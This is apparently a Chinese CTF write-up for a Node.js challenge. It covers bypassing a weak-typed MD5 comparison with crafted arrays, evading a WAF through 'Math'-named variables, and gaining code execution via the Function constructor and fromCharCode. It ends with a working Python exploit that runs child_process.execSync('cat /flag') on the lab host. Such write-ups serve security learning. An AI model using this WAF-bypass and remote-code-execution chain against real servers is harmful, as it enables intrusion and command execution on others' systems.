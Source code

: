 tags:: CTF/JS/WAF绕过, CTF/JS/弱类型, CTF/RCE

- # 基本思路
	- 绕过弱类型验证和waf实现rce
- # 绕过弱类型验证
	- `first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])`
	- 只要`first=["a","a,a"],second=["a,a","a"]`，这两个数组转化成字符串的时候就都会化成`a,a,a`，绕过验证
- # 绕过waf
	- ![Screenshot_2023-02-07_17-26-00.png](../assets/Screenshot_2023-02-07_17-26-00_1675761971770_0.png)
	- 提供了等于号，可以实现变量赋值
	- `Math`和数字可以通过waf，变量名可以考虑使用这二者
	- `Math`后面可以加`.`，所有以`Math`结尾的变量都可以利用`.`获取属性
	- 综上，变量名可以为`Math1Math`等，可以通过`.`获取任意变量
- # waf限制下的rce
	- `Math.toString.constructor`的作用类似于eval, 传入一个字符串，其会使用这个字符串生成一个匿名函数
	- `Math.toString().constructor.fromCharCode`，将ascii码转换成字符
	- 我们只需要依次执行以下语句即可利用这两个函数实现任意JS代码RCE
		- ```python
		  # Math.toString().constructor.fromCharCode
		  post_str("Math1Math=Math.toString()")
		  post_str("Math2Math=Math1Math.constructor")
		  post_str("Math3Math=Math2Math.fromCharCode")
		  # Math.toString.constructor
		  post_str("Math4Math=Math.toString")
		  post_str("Math5Math=Math4Math.constructor")
		  ```
	- 执行结果在cookie中
- # Payload
	- ```python
	  url = "http://d0f529af-0b53-4e58-9362-4cc67c5159cd.node4.buuoj.cn:81/"
	  session = requests.session()
	  
	  def post_str(s):
	      r = session.post(url, json = {
	          "e":s,
	          "first":["a","a,a"],
	          "second":["a,a","a"]}
	      )
	      return r
	  
	  post_str("Math1Math=Math.toString()")
	  post_str("Math2Math=Math1Math.constructor")
	  post_str("Math3Math=Math2Math.fromCharCode")
	  
	  post_str("Math4Math=Math.toString")
	  post_str("Math5Math=Math4Math.constructor")
	  
	  def encode_payload(s):
	      return "Math5Math({})()".format(
	          "+".join(f"Math3Math({ord(c)})" for c in s)
	      )
	  
	  payload_raw = "return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()"
	  post_str(encode_payload(payload_raw))
	  cookie_session = session.cookies["PHPSESSION"]
	  cookie_session_json = json.loads(enc_dec.base64_decode(cookie_session))
	  print(cookie_session_json["results"][0])
	  ```
